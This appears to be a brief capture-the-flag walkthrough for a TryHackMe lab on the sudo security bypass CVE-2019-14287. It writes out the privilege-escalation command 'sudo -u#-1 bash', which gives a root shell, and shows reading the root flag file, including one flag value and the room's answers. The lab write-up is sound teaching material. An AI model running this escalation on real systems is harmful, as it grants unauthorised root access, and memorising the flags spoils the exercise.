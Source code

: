 > # Sudo Security Bypass 

## Task 2 - Security Bypass
1. What command are you allowed to run with sudo?<br>
    Connect to SSH port 2222 with the given credential.<br>
    Use `sudo -l` to find what command allowed to run with sudo.<br>
    ![](images/1.png)<br>
    **Answer:** /bin/bash

1. What is the flag in /root/root.txt?<br>
    Privilege to root with CVE-2019-14287 vulnerable by command `sudo -u#-1 bash`.<br>
    ![](images/2.png)<br>
    Read the flag in `/root/root.txt'.<br>
    ```
    # cat /root/root.txt 
    THM{l33t_s3cur1ty_bypass}
    ```
    **Answer:** THM{\<redacted>}
